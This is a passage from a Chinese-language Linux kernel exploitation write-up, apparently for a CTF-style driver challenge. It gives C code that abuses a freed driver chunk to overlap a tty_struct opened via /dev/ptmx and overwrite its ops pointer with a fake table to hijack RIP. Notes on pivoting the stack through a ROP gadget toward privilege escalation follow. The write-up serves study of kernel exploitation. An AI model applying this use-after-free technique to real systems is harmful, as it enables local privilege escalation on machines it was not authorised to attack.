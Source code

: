 ```c
    ioctl(fd1, 0x10001, 0x2e0);
    printf("set chunk size = 0x2e0 = sizeof(struct tty_struct)\n");
    close(fd1);
    //printf("close fd1, free chunk\n");

    int tty = open("/dev/ptmx", O_RDWR);
    if(tty<0){
        printf("open /dev/ptmx error\n");
        exit(-1);
    }

    for (int i=0; i<0x34; i++){
        fake_ops[i] = 0xffffffff81110c15;
    }

    fake_ops[7] = 0x12345678;


    uint64 fake_tty[4];
    read(fd2, fake_tty, 0x20);
    fake_tty[3] = (uint64)fake_ops;

    write(fd2, fake_tty, 0x20);

    char buf[0x8] = {0};
    write(tty, buf, 0x8);

    return 0;
}
```

成功

![image-20220213224755651](https://s2.loli.net/2022/02/13/unU6QzoLwvTiI4H.png)

![image-20220213225125928](https://s2.loli.net/2022/02/13/eyWcqQgOZ3BL8M5.png)

### fake_stack 

我们继续审视下这个程序崩溃的位置

![image-20220213225444461](https://s2.loli.net/2022/02/13/KMg21iAuQZD9rGj.png)

首先我们可以控制rip运行到这里， 寄存器中， 我们只能控制rax， 接下来的构造， 

* 这个rip如果调用函数的话，在一次函数调用内进行提权肯定是不可能的。
* 这个rip进行rop的话，可以配合rax修改rsp， 

搜索，确实存在这个gadget， 

![image-20220213230213987](https://s2.loli.net/2022/02/13/TtrfaneBqCl1LXP.png)
